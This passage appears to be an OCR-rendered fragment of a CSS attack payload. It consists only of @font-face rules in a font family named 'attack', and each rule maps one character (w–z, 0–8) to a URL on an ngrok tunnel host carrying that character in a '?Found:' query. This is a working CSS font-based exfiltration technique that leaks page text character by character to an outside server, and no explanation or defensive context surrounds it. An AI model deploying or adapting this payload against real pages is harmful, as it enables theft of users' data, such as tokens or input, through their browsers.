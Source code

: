 	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:w');
	unicode-range:U+0077;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:x');
	unicode-range:U+0078;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:y');
	unicode-range:U+0079;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:z');
	unicode-range:U+007A;
}

@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:0');
	unicode-range:U+0030;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:1');
	unicode-range:U+0031;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:2');
	unicode-range:U+0032;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:3');
	unicode-range:U+0033;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:4');
	unicode-range:U+0034;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:5');
	unicode-range:U+0035;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:6');
	unicode-range:U+0036;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:7');
	unicode-range:U+0037;
}
@font-face{
	font-family:attack;
	src:url('http://0.tcp.ap.ngrok.io:19373//?Found:8');
	unicode-range:U+0038;
}